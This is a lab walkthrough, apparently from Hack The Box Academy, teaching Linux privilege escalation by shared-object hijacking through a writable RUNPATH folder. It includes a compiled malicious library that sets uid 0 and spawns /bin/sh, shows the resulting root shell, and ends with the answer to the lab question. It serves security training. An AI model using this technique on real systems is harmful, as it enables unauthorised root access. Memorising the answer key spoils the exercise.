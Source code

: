 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
- [id](#id)

## Table of Contents

- [id](#id)

Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.

```shell
htb_student@NIX02:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

We can use [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) to print the shared object required by a binary or shared object. `Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

```shell
htb_student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```



We see a non-standard library named `libshared.so` listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the `RUNPATH` configuration. Libraries in this folder are given preference over other folders. This can be inspected using the [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) utility.

```shell
htb_student@NIX02:~$ readelf -d payroll  | grep PATH
```

This configuration allows the loading of libraries from the `/development` folder, which is writable by all users. This mis configuration can be exploited by placing a malicious library in `/development`, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files.)

```shell-session
htb_student@NIX02:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

Before compiling a library, we need to find the function name called by the binary.

```shell
htb_student@NIX02:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```shell
htb_student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

```shell-session
htb_student@NIX02:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.`so, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.


```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh` when called. Compile is using `gcc`.
```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```

Executing the binary again should display the banner and pops a root shell.

Shared Object Hijacking

```shell
htb_student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```


```bash
htb-student@NIX02:~/shared_obj_hijack$ ldd payroll
	linux-vdso.so.1 (0x00007ffe2c0a7000)
	libshared.so => /development/libshared.so (0x00007fabb72e5000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fabb6ef4000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fabb74e7000)
htb-student@NIX02:~/shared_obj_hijack$ ls -l /lib/x86_64-linux-gnu/libc.so.6
lrwxrwxrwx 1 root root 12 May  3  2022 /lib/x86_64-linux-gnu/libc.so.6 -> libc-2.27.so
htb-student@NIX02:~/shared_obj_hijack$ 
```

Follow the examples in this section to escalate privileges, recreate all examples (don't just run the payroll binary). Practice using ldd and readelf. Submit the version of glibc (i.e. 2.30) in use to move on to the next section.
> **2.27**